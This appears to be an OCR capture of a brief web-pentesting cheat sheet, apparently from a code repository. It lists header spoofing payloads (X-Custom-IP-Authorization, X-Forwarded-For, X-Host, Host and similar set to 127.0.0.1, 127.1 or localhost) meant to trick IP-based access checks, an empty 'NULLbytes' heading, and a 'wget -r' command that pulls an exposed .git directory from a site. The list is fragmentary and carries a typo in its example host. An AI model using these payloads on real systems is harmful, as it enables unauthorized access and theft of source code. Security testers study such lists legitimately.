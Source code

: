 /// with headers // localhost, 127.0.0.1, 127.1
X-Custom-IP-Authorization: 127.0.0.1
X-Custom-IP-Authorization: 127.1
X-Custom-IP-Authorization: localhost
Host: 127.0.0.1
Host: 127.1
Host: localhost
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Host: 127.1
X-Forwarded-Host: localhost
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-Scheme: 127.1
X-Forwarded-Scheme: localhost
X-Forwarded-For: 127.0.0.1

X-Forwarded-For: 127.1
X-Forwarded-For: localhost
X-Host: 127.0.0.1
X-Host: 127.1
X-Host: localhost


/// NULLbytes



/// Download git and use apt-get install git-cola
wget -r wedsite.com/.git